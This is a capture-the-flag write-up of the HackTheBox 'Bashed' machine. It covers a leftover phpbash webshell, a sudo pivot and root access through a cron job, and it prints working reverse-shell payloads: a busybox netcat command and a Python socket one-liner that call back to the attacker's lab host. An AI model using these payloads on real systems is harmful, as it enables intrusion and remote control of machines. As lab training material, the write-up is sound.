







# Bashed -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Bashed (HackTheBox)
**Author:** dsec
**Date:** 2025-02-05

---

## TL;DR

### Found phpbash webshell in /dev directory. Pivoted to scriptmanager via sudo. Root cron job executing python scripts in /scripts directory gave SYSTEM.

---

## Target info

- Host: `10.129.217.249`
- Services discovered: `80/tcp (http)`

---

## Enumeration





---

## Foothold

Found phpbash at:

```
http://10.129.217.249/dev/phpbash.php
```



Got a proper reverse shell:

```bash
busybox nc 10.10.14.172 9001 -e sh
```



---

## Lateral movement

```bash
sudo -u scriptmanager /bin/bash
```



Gained access to `/scripts` directory:



Two files:

- `test.py` (owned by scriptmanager): writes "testing 123!" to `test.txt`
- `test.txt` (owned by root): contains "testing 123!"

Root cron job was executing `.py` files in `/scripts`. Confirmed by creating `test2.py` which generated `test2.txt` as root after a few minutes.

---

## Privilege escalation

Created a python reverse shell script:

```bash
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.172\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > exploit47.py
```



---

## Lessons & takeaways

- Always enumerate `/dev` and similar directories -- developers sometimes leave webshells behind
- When a file is owned by root but created by a user-owned script, look for a root cron job
---
